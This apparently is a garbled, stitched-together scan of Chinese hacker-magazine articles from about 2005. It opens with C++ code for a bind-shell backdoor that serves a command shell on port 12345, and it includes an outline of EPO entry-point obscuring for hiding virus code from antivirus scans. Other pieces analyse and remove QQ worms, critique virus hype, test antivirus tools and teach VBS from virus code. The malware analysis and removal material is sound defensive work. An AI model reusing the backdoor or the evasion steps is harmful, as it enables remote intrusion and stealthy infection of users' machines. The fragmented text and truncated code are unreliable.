> 右侧说明框：列出 CleanUp / GetOsVer / StartCmdShell 等函数说明。

SocketEx.h 是仿照 CSocket 类库封装的 SOCKET 类库，用于简化网络函数调用。

```cpp
#include <windows.h>
int main(int argc,char* argv[])
{
    return 0;
}
```

# 黑客编程

```cpp
// 然后添加头文件 CmdShell.h 和 SocketEx.h
#include <windows.h>
#include "CmdShell.h"
#include "SocketEx.h"

int main(int argc, char* argv[])
{
    CSocketEx client, server;
    server.Create(12345, NULL);
    server.Listen();
    while (true) {
        server.Accept(client);
        SOCKET wh = client.Detach();
        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)TalkWithClient, (void*)wh, 0, NULL);
    }
}
```

```cpp
// 命令提示符，如果不想连接后就有一个欢迎提示
cmd = recvcmd(c);
if (strcmp(cmd, "shell") == 0) {
    CCmdShell cmdshell;
    cmdshell.LetUSGo(c.m_hSocket);
    continue;
}

if (strcmp(cmd, "quit") == 0) {
    if (c.m_hSocket == INVALID_SOCKET) break;
    closesocket(wsc);
}
```

```cpp
// 发送来的字符缓冲区
int i = 0;
ZeroMemory(buf, 32);
while (i < 32) {
    if (c.Receive(chr, 1) <= 0) close(0);
    buf[i] = chr[0];
    if (chr[0] == 0xA || chr[0] == 0xD) {
        buf[i] = 0;
        break;
    }
    i++;
}
cmd = buf;
return cmd;
```

就这样了，这些代码就可以组成一个小小的后门，运行附带的编译好的 minicmd 就可以 telnet 12345 端口了。这里只是利用 CmdShell.h 简单写一个后门而已，希望本文提到的方法能够有所启发。

好了，主程序和主要的代码就这些，就这几个代码就可以实现一个网络的 Bind 跟接受连接。

下面介绍客户端与服务端的对话线程 TalkWithClient。这个函数负责与已经连接的客户对话，实现命令的接收传送。

```cpp
void TalkWithClient(void *cs)
{
    SOCKET wsc = (SOCKET)cs;
    CSocketEx c;
    c.Attach(wsc);
    char *cmd;
    c.Send("Welcome To CmdShell\r\n", strlen("Welcome To CmdShell\r\n"));
    while (1) {
        c.Send("#", strlen("#"));
        // 循环接收命令
    }
}
```

下面再介绍一个接受命令的函数 `char* recvcmd(CSocketEx &c)`。telnet 的命令是按字符发送的，recvcmd 能够把服务端接收到的字符拼接成一个字符串并返回命令字符。

```cpp
char* recvcmd(CSocketEx &c)
{
    char *cmd;
    char buf[32];
    char chr[2];
    // 逐字节接收并拼接命令
}
```

## 分析QQ消息\QqmsgMyRun病毒

Bin_ZH / 梦幻蝶

前几日掉以轻心，不小心接收并运行了一个 QQ 好友发来的名为“在线收音机（我们一起听听第6个频道吧，来探讨这个话题）.EXE”的文件，结果我的电脑中毒事态日而不觉，直到有一天跟一朋友聊天的时候，发现 QQ 自动给他发送名为“QQTalk（QQ聊天秘书，给你看看吧）.exe”的文件被拒绝，才感觉到电脑中毒……这一切都是由于这个名为 Worm.QQmsgMyRun.a 的蠕虫病毒所引起的！

病毒之中，最令我讨厌的当属此类 QQ 病毒，搞破坏倒在其次，最可恨的就是它如同你和朋友聊天时旁边的苍蝇一般坠入病毒和雅兴……必当删之而后快！为了不让此病毒再为害人间，我本着神农尝百草的奉献精神，在除毒时把机器上重新运行了“在线收音机（我们一起听听第6个频道吧，来探讨这个话题）.EXE”这个病毒文件！不过在此之前，我已经备份了注册表以及 regedit，运行了 filemon 和 regmon 两个文件……

### 一、下面先来看看运行病毒后 filemon 监测的结果：

结果显示病毒在 C:\windows\system 下生成了 rundll32.exe，在 C:\windows\system32 下生成了 notepad[空白].exe 和 [空白].exe 两个文件（.exe 前是个空白，后面分别以 notepad[空白].exe 和 [空白].exe 表示之）。我用的是 XP 系统，不同的系统病毒的释放路径各有不同。其中 rundll32.exe 是病毒运行时的文件，从进程中可以看到！

同时由于我电脑安装了 QQ……病毒在 QQ.exe 路径下把正常的 TIMPlatform.exe 改名为 TIMPlatformr.exe（将字母“I”改成数字“1”），将病毒自身复制为 TIMPlatform.exe。由于这个 TIMPlatform 的文件是随 QQ 启动的，但是替换它与运行它与否都不妨碍 QQ 正常运行……

### 二、再来看看 regmon 监测的结果：

结果显示病毒在注册表上添加了三处感染标记：  
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainSetup，  
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainUp，  
HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainVer。  

当病毒传播后运行时，会先通过这几处键值检查系统是否已经感染；如果感染就弹出窗口结束运行！同时病毒还修改了 .exe 和 .txt 的文件关联到病毒文件，具体改动如下：


```
HKEY_LOCAL_MACHINE\Software\Classes\exefile\shell\open\command
(Default)= "%1" %*
HKEY_LOCAL_MACHINE\Software\Classes\txtfile\shell\open\command
(Default)=notepad "%1"
```

这样每次电脑运行 txt 和 exe 文件的时候，病毒都会被运行一次，我开始想到用恢复注册、用 cmd 删除病毒文件，直接打开注册表（regedit.exe）修改键值，结果总是删之不绝，rundll32 文件总是去之又来，注册表的进程总是停之再现，就是因为 .exe 的关联，每次打开 cmd 或注册表，[空白].exe 都会重新生成 C:\windows\system\rundll32.exe 并运行之！

病毒在注册表的另一番作为便是删除以下启动项目：iexplore、IEXPLORE、sysint、mspaint、mspbint、iexplore.exe、IEXPLORE.EXE、mssysint.exe、mspaint.exe、mspbint.exe、internat.exe、internat（具体情况受中毒机器设置而不同）。此种小伎俩并无甚作为！读者不必惊慌！

### 三、这里顺便来看看病毒运行时的表现吧

这并非 filemon 和 regmon 检测的结果，确实是病毒的狐狸尾巴和传播途径！

当病毒运行的时候会向 QQ 好友自动发送病毒文件，文件名不定，随机生成下列文件名不等：


- 老板啊，快来呀，推荐给你看看.exe
- 你无敌了，你看过这个 FLASH 吗.exe
- 好漂亮的动画哦，可以打开看看吧.exe
- 啊哈哈，网友发的超级搞笑 FLASH，你看得懂吗.exe
- 超级 MM，超级 FLASH，搞笑的.exe
- 我感受你的心情好点（网上找到的）.exe
- 可以让电脑（20个 CCTV 频道+36个港台+50个英文台，被力推荐）.exe
- 这个对你目前工作很有帮助的东东.exe
- QQTalk（QQ聊天秘书，给你看看吧）.exe

很有诱惑力和欺骗性，望大家收到类似文件时务必小心谨慎！

好了，知道了病毒的所作所为，下面工作就简单了！删！删！删！删之不误！具体步骤如下：

1. 终止 rundll32.exe 和 TIMPlatform.exe 进程（注意区分系统正常 rundll32 进程）。
2. 把 regedit.exe 改名为 regedit.com，然后运行。
3. 定位注册表到 HKEY_CLASSES_ROOT\exefile\shell\open\command，将值改为 `"%1" %*`；定位到 HKEY_CLASSES_ROOT\txtfile\shell\open\command，将值修改为 `%SystemRoot%\system32\NOTEPAD.EXE %1`；修复 exe/txt 关联。
4. 删除 HKEY_LOCAL_MACHINE\Software\Classes\MSipv\MainSetup、MainUp、MainVer 这三处感染标志，留着虽无碍，但多有不爽！
5. 删除相对系统目录下的 notepad[空白].exe、[空白].exe 和 rundll32.exe（可以根据病毒的图标删除，很好找的）。
6. 到 QQ 安装目录，删除病毒生成的 TIMPlatform.exe（同样可以根据图标），再把 TIMPlatformr.exe 改名为 TIMPlatform.exe 即可。
7. 将“regedit.com”改回“regedit.exe”。

好了，到此为止，这个自动发送文件的 QQmsgMyRun 已经被我们分析透彻，查杀干净！再也无所作为了。这里再给大家唠叨几句关于预防和清除病毒的关键：

1. 不要轻信任何人从 QQ 或者邮件发送的任何地址链接或文件。不要因为不让你怀疑你的好友，实在是你并不能确定你的朋友的机器是不是早被病毒攻陷而为其所用！
2. 不要太过信赖和倚赖杀毒软件，大多时候杀毒软件只能对已知病毒有所作为，对新的病毒往往束手无策！
3. 当你怀疑电脑中毒之时，也不必惊慌，在更新杀毒软件仍然无效时，大可自己搞定！通过查看进程等找到可疑进程，然后搜索机器上的相对文件和注册表，确认是病毒删之即可！如果不敢确定是否是病毒，可以到 baidu 和 google 搜索，一般都会有结果的！
4. 多注意一些病毒爱藏身的地方，多看进程表，掌握一些常用系统进程知识，多看 X 档案！


## 2005年5月，各大媒体报刊争相出现一个名字：新CIH病毒

CIH 给人留下的印象还是比较深刻的，在 1999 年 4 月 26 日发作高峰的时候，全球超过六千万台电脑被不同程度破坏；第二年，CIH 再度爆发，全球损失超过十亿美元。那么这个被炒作得沸沸扬扬的“新CIH”到底为何方神圣，我们今天就一起走进她。

国内某著名杀毒软件厂商称：“新CIH”病毒现象网络，电脑一旦感染主板数据即遭破坏……与 CIH 一样，“新CIH”感染后会破坏主板和硬盘数据，不同的是“新CIH”可在 Windows 2000/XP 下运行，而 CIH 只能在 Windows 9X 下运行。

先看样本特征信息：可见 YM V1.1 YANG MIN 字样，发作后提示“YM KILL YOU”。反编译后可见其技术并不复杂。

```
call [ProcessImportTab]
mov eax,[User32]
push eax
call dwLoadLibrary
mov [user32],eax
xor ecx,ecx
la: edx,[CallGateSel]
...
call [EditBkFile]
...
```

2004 年末，同样也有一个病毒采取了这种方法，被国内媒体大肆炒作，简称“熊猫烧香”式技巧：在 Win98 用 CIH 类技术，在 Win2000/XP/2003 下写入 NTLDR，重启后实现 ring3 到 ring0 的权限切换。

该病毒通过分段插入 kernel32.dll 和 user32.dll，不驻留后台进程，因此终止不了它。感染 EXE 后文件体积不增大，隐蔽性较强，但也因方式老旧、稳定性差而较易发现。其破坏硬件（如主板、硬盘）的说法缺乏依据，更可能是覆盖垃圾数据造成系统损坏。

病毒利用的是 Windows 2000/XP/2003 的公开漏洞，打补丁后影响显著降低。测试显示打 SP 补丁的系统下难以复现其感染。国外厂商命名包括 Virus.Win32.Niya.a、W32/NGVCK.d、PE_YAMIL.A 等。

> Category: 5 - Very Severe  
> Highly dangerous threat type,  
> very difficult to contain. All machines should download the latest virus definitions immediately and execute a scan. E-mail servers may need to come down.

metrics must be high  
Wild: High  
Damage: High  
Distribution: High  
Category: 4 - Severe  
Dangerous threat type, difficult to contain...（后续为英文病毒评级说明，多段）

就是说必须病毒的发作范围、危害性、感染的用户及站点达到 high 的情况下，才可以升级为 4 级。而当发作范围、危害性、感染的用户及站点均为 low，乃至 very low 情况下，是应评为 1 星。国内的著名厂商评级为 4 星，为一个目前情况下根本不能传播开来的病毒大肆宣传，甚至发布橙色警报，除了炒作，这没有其他理由可以解释。

对国内杀毒软件公司已经懒得说什么了，这个病毒最多算是个旧的概念病毒，只希望广大计算机用户自己可以分辨是非，不要盲目。

## 让KV2005瘦下来

金毒软件 KV2005 使用的朋友非常多，虽然它有很强大功能，但安装后要占用较多磁盘空间。本文介绍通过删除不常用组件来减少体积，让 KV2005“瘦下来”。

1. 删除多余的语言包 —— 4.2MB
2. 删除多余的皮肤文件 —— 1.8MB 左右
3. 删除升级文件 —— 2.6MB
4. 删除杀毒助手 —— 5.87MB
5. 删除备份文件 —— 24.5MB
6. 删除帮助文件 —— 3.29MB
7. 删除病毒报告文件 —— 213KB
8. 删除保护程序文件 —— 468KB + 803KB

### 什么是 EPO

janxin 那家伙就是不老实，好不容易高考完了，他说拿成果出来给兄弟姐妹们看看。时间匆忙，就把一篇以前研究过的病毒技术的文章拿出来，与大家一同分享。大家在玩病毒和木马时，也许会听到一个名词：EPO 技术（第一次技术交流时，他们还以为是 OEP 呢）。这是病毒常用的反病毒技术，这里，我们就来说说这个东西。

### 什么是 EPO

所谓 EPO，就是 Entry Point Obscuring，中文名称“入口点模糊技术”。该方法不同于传统修改 PE 文件头部入口处使其指向病毒代码入口的方法，能在一定程度上提高病毒生存能力。当然，随着反病毒技术的不断提升，这种方法也不再是完美解决方案。不过，现在这种技术仍有着巨大的研究价值。我们来看看吧。

### 病毒需要 EPO 技术吗

答案不说也知道的，肯定需要啊。习惯上，杀毒软件将木马与病毒同归为一类，现在看来好像有一点远见，因为现在的木马日趋病毒化，病毒日趋木马化，很多病毒都已脱离原定义，可以称之为木马了。EPO 技术也随着这种趋势为木马和病毒所使用。杀毒软件厂商为了对抗不断进步的病毒技术，开发出许多优秀技术，如启发式扫描、虚拟机执行等技术。这些技术通过判断程序是否具有通常病毒特征来判断病毒，即便是新写的传统病毒，仍然是有被查杀的可能。EPO 技术就是 Vxer 们开发出来对抗启发式扫描的技术。杀毒软件引擎的检测，很大一部分针对 PE 文件的入口点，EPO 技术的不同之处在于，将病毒置于 PE 文件中不起眼的位置，减少自己被查杀的可能。因此，EPO 技术在变形、多态对抗技术中有重要应用。

### 怎样实现 EPO

关于 EPO 技术的实现，在上面部分讲的时候就已经透露了一点了，聪明的话就应该猜到了。不过答案我们先不公布，讲一点其它的东西。EPO 技术，只不过是变形地使病毒执行体获取程序执行时的 EIP，从而启动病毒代码。研究过反病毒技术的兄弟应该知道，一般杀毒软件在启发式扫描时，先检查软件入口点是否在 PE 文件的最后一个 Section，是则极可能感染病毒。因此，早期 EPO 技术的做法是：不改变 PE 文件头中入口点值，而是改变程序入口点地址附近代码，如改成 `JMP Virstart` 或 `Call Virstart`（其中，Virstart 代表病毒代码的起始地址），从而实现病毒的执行。记得孟方明兄以前写那个文件 Rootkit 时用的是这个方法，效果怎么样，大家试试就知道了。对了，顺便提一下那个后门怎么不用 DOS——使用 API，大家可以去查查就知道了。OK，跑题了，回来。这种方法也不再风光了，因为它只能对付那些对代码入口进行简单检测。

还有一种方法，替换文件中的某一语句为 `JMP Virstart` 或 `Call Virstart`（其中，Virstart 代表病毒代码的起始地址），或用其他跳转方法跳转到病毒体中执行。想法倒是挺自然；但判断文件是否为一个指令的开始程序，无异于一个反汇编程序，那可就非常复杂了。不过，我们还有其他的方法可以使用，即 Hook 掉 PE 文件中的 API 调用。Hook API 的教程想来现在已经很多了吧。这个方法还是可以的，因为 Win32 系统中，API 的使用频率也确实很高。为什么不能直接 Patch API 对应的函数呢？原因是在使用 PE Loader 加载 PE 文件时，会用正确地址填充 Patch 内容，要是采用重定向，又会引起杀毒软件的怀疑。

变通一下，查找指定指令，如：“CALL [XXXX]”或“JMP [XXXX]”指令，将其中的“XXXX”替换为 Virstart 地址。“CALL DWORD PTR [XXXX]”和“JMP DWORD PTR [XXXX]”通常是跳转到真正 IAT 函数去执行的指令。当然，查找其它指令也是可以的，如段内转移“Call XXXX”指令，替换“XXXX”为 Virstart 地址。

### EPO 示例思路

1. 判断 PE 文件的合法性和可感染性（是否有足够剩余空间）。
2. 添加新节，修改 SizeOfImage。
3. 开始 EPO：  
   1) 在节中寻找“E8 XXXXXXXX”，根据“XXXXXXXX”获得“JMP DWORD XXXXXXXX”的文件偏移。  
   2) 计算跳转到 Virstart 的相对距离，覆盖“XXXXXXXX”。  
   3) 拷贝“JMP DWORD PTR [YYYYYYYY]”中的“YYYYYYYY”到病毒体内。  
   4) 写入病毒代码，最后执行“JMP DWORD PTR [YYYYYYYY]”。

### 后记：泼些冷水

想必在经过前面那么乐观的介绍，你已经喜欢上 EPO 技术了，但是，我在这里就不得不泼你一盆冷水：万一你找的指令是数据怎么办？万一这个 API 是废代码怎么办？没办法，加强学习，多调试调试；找 Vxer 和 Cracker 的前辈请教，他们的 PE 文件基本功深厚。最后谢谢你看完了我的啰嗦，但愿你能够从本文中学到点什么！

# 病毒危机下的杀毒软件

病毒和杀毒软件间的斗争，从其产生之日开始就从未停止过……目前很多企业用户乃至家庭用户安全意识日渐提高……

我们先来看看这篇稿子里所涉及的病毒的相关资料：病毒命名：Backdoor.Win32.Small.gl（Kaspersky Lab）、Virus.Win32.Tenga.a（Kaspersky Lab）、BackDoor-CTM（McAfee）、W32/Gael.worm.a（McAfee）、W32/Tenga-A（Sophos）……

体积过大容易隐藏和传播，所以主流思想是不同病毒体负责不同模块功能，模块化的思路在病毒创作中同样适用……

我们来测试一下杀毒软件对 Win32.Tenga 的处理能力：首先说一下诺顿的处理结果……很多 EXE 文件在杀毒后不能使用了（这个问题已经反馈给诺顿了）。

图1

我们把 Win32.Tenga.a 病毒主、副特征码删除……这时的选项有 3 个：隔离、删除、忽略，如图2。

这个病毒在 2005 年 5 月 13 日出现第一个版本，5 月 18 日出现 B 变种，5 月 22 日出现 C 变种……

因为这个病毒的传播途径有两条：

- 第一条：EXE 感染……
- 第二条：Microsoft Security Bulletin MS03-026、Microsoft Windows DCOM RPC Interface Buffer Overrun Vulnerability……

病毒会开启 10 个线程，发送 SYN PACKETS 到随机 IP 地址的 TCP 139 端口……并会从指定地址下载文件（如 DL.EXE、GAELICUM.EXE、CBACK.EXE）。

图2

- 1. 当找到病毒特征码、算法正确后，可以如图1所示，有“清除、删除和忽略”3个选项。只要用户在杀毒规则里选择卡巴斯基推荐的“清除”选项，就可以杀掉病毒。
- 2. 当病毒特征代码被修改后，卡巴斯基只能判断为 TYPE.WIN32 病毒，处理结果有 3 种方法：隔离、删除、忽略。表面上实现了查杀未知病毒能力，但由于这是一个 EXE 病毒，那么除了感染用户常规应用软件的执行程序文件外，还感染系统盘下的系统文件。当感染系统文件后，如果选择忽略，那么相当于没有杀毒，显然不行。只剩 2 个选项可选择，无论选择隔离或删除，被感染系统文件夹下的 EXE 文件都会丢失，下次系统启动由于系统文件丢失会导致启动失败。

在目前的 Win32.Tenga 变种感染中，很多受害者杀毒后系统重启到输入 Windows 登录密码对话框后，输入登录密码后自动注销，不能进入系统。这就是由于 Win32.Tenga 感染系统目录下的 USERINIT.EXE 文件，这个文件是负责登录后初始化用户环境的。由于该文件感染 Win32.Tenga 病毒后，被杀毒软件删除或者隔离，没有这个文件用户不能登录系统，造成反复注销。这样，反而是由于杀毒软件杀毒原因造成用户损失。目前这一变种已经发给卡巴斯基。

这个例子反映出来的问题只是冰山一角。类似由于杀毒软件引起的问题还非常多，如国内好几款杀毒软件处理 POLYBOOT 病毒时，由于这个病毒是一个引导型病毒，杀毒软件会清空主引导扇区内的数据，造成分区丢失，这一问题目前仍然没有解决。还有几个 EXE 病毒，杀毒软件在杀毒后文件头对齐存在问题，病毒是杀掉了，可文件也不好用了。

每天都有大量新病毒如洪水般出现在我们面前，单纯靠杀毒软件防御潜在危险是远远不够的。毕竟目前的杀毒软件还处于被动状态，只有当病毒出现后，杀毒软件才会升级更新。目前许多病毒都开放了代码，如著名的 beagle、agobot、netsky 等，在这个空前自由的互联网中，得到代码的人简单修改就会令一个成熟且颇具威力的病毒出现。单单依靠杀毒软件，不足以处理我们面对的危机。只有全社会动员起来，学习安全知识，加强安全观念，才是最有效的方法。广播、杂志等媒体也多了一份促进安全知识交互的使命。作为个人，多接触安全方面知识，把自己的知识始终跟上目前的安全需要，才是极有效的方法。天道酬勤，随着知识积累，相信你处理各种病毒和安全问题时一定会游刃有余。

毒来毒往，毒生毒灭，每一个上网者都注定躲不过与病毒、木马邂逅的“缘分”，但又有多少人知道这些病毒具有丰富的营养呢？其中脚本类病毒因其基本上公开代码，而价值最高。现小弟以变种不断的 HappyHour（欢乐时光）为材料，写了一部 VBS 应用小教程，让大家榨尽毒中的精华。

### 一、关于 HappyHour

在 Win98 中，当我们以 Web 页查看时，打开每一窗口，系统都会默认以文件夹中指定的 *.htt 初始化该窗口。无指定则以 %systemroot%\web\folder.htt 初始化窗口。我们要研究的此 HappyHour 变种，正是利用能在 htt 文件中植入脚本程序来为所欲为。下面讲讲病毒机理。

当我们打开了一个由含有病毒代码的 htt 文件初始化的窗口时，病毒首先检查 %systemroot%\web\folder.htt 是否被感染，否则把病毒代码写入 folder.htt；然后在注册表写入内容，搞一点恶作剧，并检查时间是否下午 4 点到 5 点之间，是则关机；最后还要弹出一个消息框吓唬一下你。别看功能不多，用到的知识可不少。要是能够掌握好这其中的语句，只需要一个记事本，写入程序保存为文件名 .vbs，就可以编出许许多多丰富多彩的应用小程序了！好了，废话少说，Let's go!

### 二、Shell 和 FileSystemObject 篇

下面是病毒的第一个子程序：

```vb
Sub initActiveX()
  On Error Resume Next
  Set AppObj = document.applets("vbs_ica")(0)
  AppObj.setCLSID("{...}")
  AppObj.createInstance()
  Set wshell = AppObj.GetObject()
  AppObj.setCLSID("{...}")
  ...
  AppObj.createInstance()
  Set fso = AppObj.GetObject()
End Sub
```

看不明白不要紧，因为这是以超文本文件的格式创建对象 wscript.shell 和 Scripting.FileSystemObject（以下简称 fso）的两个实例。在 vbs 文件中我们只要写成这样两行就行了：

```vb
set fso = wscript.createobject("scripting.filesystemobject")
set wshell = wscript.createobject("wscript.shell")
```

病毒把建立这两个实例作为程序的第一部分，是因为这两个对象实在太重要了！基本上我们要进行的大部分操作，都是通过这两个对象的实例进行的。这两个对象可以说是 vbs 的一大特色了，一开始接触 vbs 可能有点不适应，但一定要掌握！到底它们能做些什么呢？shell 负责执行命令或程序（和在 CMD 中输入命令一样！）之外，还可修改注册表；fso 则负责对文件与文件夹的修改。

大家可以试着在记事本中写入下面两行：

```vb
set wshell = wscript.createobject("wscript.shell")
wshell.run "shutdown.exe -s -t 0 -f"
```

然后保存为文件名 .vbs，双击，怎么样，是不是与在 CMD 中输入 `shutdown.exe -s -t 0 -f` 关机效果一样啊？以后关机再也不用按开始按钮了！怎么样，灵光一动，又想到了什么？对，做一个定时关机的程序！可是知识还不够，还要介绍一句：`wscript.sleep 60000`，意思是让程序执行到此语句时休息一分钟再往下执行（1000 代表 1 秒）。只要在前面的程序中间加入这样一句，就能实现定时关机了！如范例1。接着看病毒中的另一子程序：

```vb
Sub ScanFilesInThisPath()
On Error Resume Next
Set myFolders2 = fso.GetFolder(ThisPath)
Set mySubFolderFiles = myFolders2.Files
For Each mySubFolderFile In mySubFolderFiles
    Set myFile = fso.GetFile(mySubFolderFile.Path)
    myFile.Attributes = 7
Next
End Sub
```

病毒中 ThisPath 变量是当前文件夹路径，然后用 GetFolder 语句使 myFolders2 为当前文件夹对象，并使 mySubFolderFiles 获得文件夹中所有文件的集合，最后用“For Each...Next”语句将其中的文件一一枚举进行感染（省略号为感染代码），在感染过程中还要把每一文件的属性设置为 7（两省略号之间的两句）。总之，简单来说这段程序就是对当前文件夹中每一文件进行感染操作。那这样的代码对我们有什么作用呢？

许多朋友都把歌曲放在一个文件夹（好多好多歌啊），但经常都会播放着文件就损坏了（气死人！）。不用怕，只要把文件属性全部设置为只读就行了！不过那么多文件……不用怕，上面的代码用上了：

```vb
dim wshell,fso,f,fc,fn
set wshell=wscript.createobject("wscript.shell")
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.GetFolder("c:\music")
Set fc = f.Files
For Each f1 In fc
    set fn=fso.GetFile("c:\music\"+f1.name)
    fn.Attributes = 1
Next
```

这样再多文件都能轻易搞定了！如果结合范例1，还能有很多玩法呢！例如，能为文件夹中的文件们起一个系列名字，如范例3。这里就不累赘了。

当病毒建立 folder.htt 文件时，用到了一条语句：`Set myFile = fso.createtextfile(folderspec)`，其中 folderspec 变量是将要建立文件的全路径（路径+文件名）。这样一句有什么价值呢？是否有过这样的经历：128M 的 U 盘，想把同学家 600 多M 的歌曲全搬回家，没办法分几次复制，可单凭记忆难免每次复制的文件都会有重复。这下好办了，有了这条语句，再结合范例2，就能编一程序在 U 盘中建立一个不占空间的同名空文件，那么下次复制时就能避免重复了：

```vb
set wshell=wscript.createobject("wscript.shell")
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.GetFolder("d:\song")
Set fc = f.Files
For Each f1 In fc
    set f=fso.createtextfile("h:\song\"+f1.name)
Next
```

太简单了吧！

### 三、注册表篇

小弟认为 VBS 提供的修改注册表方法是世界上最最简单易用的了（自然功能也就少点，但对初级应用绰绰有余）。病毒中有这样一句：`wshell.RegWrite myRegKey, myRegValue, myRegType`，第一个参数是键名（包括完整路径），第二个是键值，第三个是键类型。如：

```vb
set wshell=wscript.createobject("wscript.shell")
wshell.RegWrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell","explorer.exe","REG_SZ"
```

注册表中的恶作剧很多，怎么样，做一个让朋友尝尝？不过这里补充两句：删除键值，如 `wshell.regdelete "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run\Shell"`。读取键值，如 `v="HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\talisman"`，`abc = wshell.RegRead(v)`，abc 变量为读取的键值。其实，脚本病毒的魅力不止这些，VBS 的魅力也不止这些，小弟学习实在繁忙，无法再与大家分享更多。

> 注意：以上范例程序在 XP 中测试通过，在 98、2000 等系统版本可能部分功能不支持。

# 杀毒日记

EXE %1”……改完之后，反复查了 Windows\system32 这个目录，好像没有什么可疑的东西了，再次重启机器，于是开始正常上网。结果发现，每打开一个 IE 链接就会出现一个 “http://www.bestscene.net/XXXX” 的页面，然后跳转，这个病毒连 IE 也注入了……

### 因因（盛翔）

昨天我正和 MM 们聊天，突然一个好久没有联系的朋友在 QQ 上给我发送了一个文件让我接收，这个文件是一个 EXE 文件……我习惯性地用右键看看能不能解压缩，结果不行……

反正也比较无聊，于是我决定运行一下。跳出提示说发现与本机存在不同版本的软件，安装失败，然后退出了……我打开任务管理器，发现多了一个名为“.exe”（名字为空格）的进程……

我立刻关机，习惯性地进入安全模式……进入 system32 目录下，终于发现了那个“.exe”文件……重启后发现“.exe”文件不存在了，但是多了一个“NTdhcp.exe”的进程……

打开 RunViewer 和 ProcPort 查看了一下，似乎一切都搞定了……后来 regedit.exe 也运行不了，cmd.exe 也运行不了……进入 `HKEY_CLASSES_ROOT\exefile\shell\open\command`，把默认改为 `"%1" %*`……

拿出 HijackThis 这个工具，点击 scan，查到一条 “WebMiscItem …C:\windows\system32\WebMisc.dll”，选择上这条，点击 “fix checked”，再重启进入安全模式，把那个 WebMisc.dll 删除……

观察了一下，似乎没有什么问题了，赶紧上微软网站更新……结果发现更新错误，错误码 0x8024401，查资料后发现是 Msxml3.dll 没有注册，于是 `regsvr32 /s Msxml3.dll`……

终于一切似乎又恢复了平静……不管怎么说，遇到病毒时不要慌，先断开网络，再逐个排查；实在不行还有备份、重装等办法……

（本文涉及到的工具 HijackThis、ProcPort、RunViewer，光盘有收录）

> 上接415页  
> 想到的是这个病毒是一种网络武器的雏形……如果病毒被用于恶意攻击，对世界上的任何一个网络都会造成难以想象的灾难……  
> （文中涉及到的工具金山的变病毒专杀工具、SpeedCommander10、PEiD0.92、Ultra32、C32ASM 已经收录于光盘中）

# 遭遇勒索黑客

以前一直以为病毒是很遥远的事，当我直视它的时候，才看清我与它的距离居然是如此的近……

### 一、相遇

那是 XX 年 9 月 19 日，星期天。早上 6 点多我醒了，算了一下天，想睡一个懒觉，但是又不想让机房的计算机闲着，就叫一个宿舍里另一个早起也去机房的舍友帮我打开电脑。谁知，这个决定让我和病毒在那个凉爽的早上相遇了。

快 9 点了，我匆匆起床，几分钟后来到机房。打开显示器的时候我的电脑已经开机了，只是还没有登录。迅速输入密码之后进入系统。在加载程序的时候随手点击了天网防火墙的网络状态查看，显示结果让我大吃一惊：我的计算机中有一个陌生程序已经连接远端的 IRC 端口，同时尝试连接机房其他计算机的 445 端口，并且打开一个端口 29838 监听，如图1。

图1

难道是我的电脑中病毒了？这几天机房很多计算机不断扫描 445 端口，由于每次都有防火墙保护，所以没有中病毒。这次我的计算机运行着，但是没有登录，从网络上已经可以访问到了。这个时候系统没有加载任何防护（由于在教育网内，打漏洞补丁是一件很困难的事情），计算机被病毒探测到之后利用系统漏洞进入，之后拷贝病毒文件到本地运行；病毒文件被运行后自动在网络寻找有漏洞的计算机再次进入、传染。

为了防止我的计算机成为病毒传播载体，我用天网把网络断开，之后开始了与病毒的较量……

图2

### 二、相斗

首先判断该病毒的性质，是一个什么类型的病毒，是否和木马混合。我运行了计算机中的密码防盗专家，运行后提示发现可疑木马程序。看起来不仅仅是一个病毒，很有可能含有木马功能。点击自动清除后，密码防盗专家迅速将源文件重命名，但我好像不是那样顺利，如图2。决定采用手工分析清除。

由于是利用 445 端口传播，先看看是不是震荡波病毒。刚好我的计算机里有专杀工具，运行金山的震荡波专杀工具后没有反应，如图3。

图3

不是震荡波，看看在网上能否找到病毒的相关信息。可是百度的搜索结果令我很失望，找到两个也是和我一样在求援的，如图4。

图4

去瑞星看看，在瑞星的病毒资料库里输入了病毒进程，瑞星提示无法找到，如图5。

图5

最后挂代理上了 Google，终于找到了一些信息，但是也很有

# 毒宠

限，除了有一个版主提供的病毒进程的参考以外什么都没有提示，只有自己清除了。想了一下一些常见病毒的原理，可能在 Windows 系统文件夹下可以看到病毒文件。根据密码盗窃专家和天网提示的结果（我之所以没有终止病毒的进程，就是为了可以通过进程找到病毒的源文件），搜索系统盘，没有找到 tskdll 文件，倒是发现了一个 tskdll.exe-20418AA4.pf 的文件，看来病毒肯定来过系统盘，可能现在还在里面，但是为什么看不到呢？

一般 system32 文件夹是病毒的必争之地，难道病毒源文件不在系统盘下？或者病毒采用了 Windows 资源管理器不可见的技术？对了，黑客守卫者。黑客守卫者是一个典型的可以修改 Windows 系统设置、隐藏指定文件的程序，病毒很有可能利用了类似的技术。可是如何才能证明这个推断呢？想起这个夏天在帮朋友的计算机清除木马时发现的一个很不错的工具——金山的可疑文件扫描器，我就是用这个工具帮朋友把被黑客守卫者隐藏的文件翻出来的。以最快的速度在工具文件夹里找出可疑文件扫描器，运行后的结果证实了我的推断，如图6。


看来这个文件真的在系统文件夹下。由于 Windows 资源管理器无法找到该文件，需要使用一个合适的资源管理器去清除该程序。在网上一阵狂搜，找到了两个可用的，下载安装完成后一个无法发现，另一个 SpeedCommander 终于使该病毒源文件现形了，如图7。


直接将源文件复制一份出来，打包。这个时候只要将病毒进程终止，删除 tskdll 之后就可以清除病毒了，但是我实在忍不住，于是便决定深入分析。这里有几个令我好奇的问题：病毒连接 IRC 地址是哪里的？病毒开的监听端口有什么用途吗？病毒的作者是谁？

带着这几个问题我开始了对病毒的深入发掘。首先通过 IP 查询得到该 IP 的资料：“非官方数据：来自 www.cz88.net 的 20040305 版 221.209.10.119--221.209.11.5 黑龙江省齐齐哈尔市 CZ88.NET”，病毒连接的地址是黑龙江的，回答了第一个问题。

开始解答第二个问题，笔者用 telnet 连接到了 29838 端口，如图8。


